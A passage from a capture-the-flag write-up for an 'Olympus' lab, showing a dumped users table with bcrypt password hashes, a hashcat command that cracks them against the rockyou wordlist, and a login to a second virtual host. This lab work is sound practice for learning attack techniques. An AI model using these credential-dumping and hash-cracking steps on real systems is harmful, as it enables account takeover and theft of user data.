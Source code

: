 reveals three users

```bash
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+

using hashcat to crack the hashes only one for prometheus will crach

```bash
$ hashcat -a 0 -w 3 -m 3200  hashes  /usr/share/wordlists/rockyou.txt
```


## Web Access

After logging in with the promethues users. we can see other users with an email for another domain

![users](./screenshots/users.jpg)

so adding chat.olympus.thm to the host file reveals another login prompt

![chat login](./screenshots/chat.jpg)
